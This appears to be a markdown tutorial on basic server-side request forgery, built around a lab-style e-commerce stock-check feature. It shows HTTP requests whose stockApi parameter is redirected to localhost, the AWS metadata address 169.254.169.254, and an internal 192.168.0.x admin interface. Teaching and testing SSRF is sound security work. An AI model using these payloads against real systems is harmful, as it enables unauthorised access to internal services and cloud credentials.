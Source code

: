 #### ############## PRACTICAL TESTING ################ ###

### 1) BASIC SSRF AGAINST LOCAL SERVERS #

   1) Consider you're testing an E-commerce application that has a feature of check the stock of the particular product.
   2) And if the user check the stock the request look like ..

          POST /product/stock HTTP/2
          Host: subdomain.target.com
          Cookie: session=pfR0IZWRhpGEDJJtvgj68rOawJ7KPfp9
	      Content-Length: 107
	      ...
	      ...
	      stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1`
   
   3) So in the above request the `stockApi` parameter is checking the stock of the product by directly asking to backend server.
   4) Now, as an attacker we can change the value of `stockApi` to the legitimate internal server, such as  
       
    http://localhost/ 
    http://127.0.0.1/           // on different ports
    http://169.254.169.254/     //for AWS

  and the request look like this,
   
	      POST /product/stock HTTP/2
	      Host: subdomain.target.com
	      Cookie: session=pfR0IZWRhpGEDJJtvgj68rOawJ7KPfp9
	      Content-Length: 107
	      ...
	      ...
	      stockApi=http://localhost:8080/`
---
### 2) Basic SSRF against another back-end system #

   1) Consider an E-commerce application fetches stock of the product from internal hosts, and the request look like this

          POST /product/stock HTTP/2
          Host: subdomain.target.com
          Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
          Content-Length: 96
          ...
          ...
          stockApi=http://192.168.0.1:8080/product/stock/check?productId=2`

   2) we can use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 
      `8080` and the request look like this

          POST /product/stock HTTP/2
	      Host: subdomain.target.com
	      Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
          Content-Length: 96
          ...
          ...
          stockApi=http://192.168.0.x:8080/admin
